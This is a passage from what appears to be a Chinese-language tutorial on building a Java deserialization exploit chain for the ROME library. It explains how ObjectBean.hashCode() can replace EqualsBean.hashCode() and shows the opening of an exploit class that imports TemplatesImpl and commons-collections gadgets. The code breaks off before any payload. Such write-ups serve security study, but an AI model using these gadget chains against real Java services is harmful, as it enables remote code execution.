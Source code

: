 ```bash
        Object obj = ois.readObject();
        return obj;
    }
}
```

## EXP(ObjectBean)：

在`ObjectBean.hashcode()`中调用了`EqualsBean.beanHashCode()`，其作用和`EqualsBean.hashCode()`等价，所以我们就可以将`EqualsBean.hashCode()`替换为`ObjectBean.hashcode()`:

[![](assets/1701612185-cf7c86bcc9d0f944f52f934a96a9e1a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230807155234-5eb64f8e-34f7-1.png)

```bash
package EXPROME;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;

public class RomeObjectBean {
    public static void setValue(Object obj,String name,Object value)throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception{

```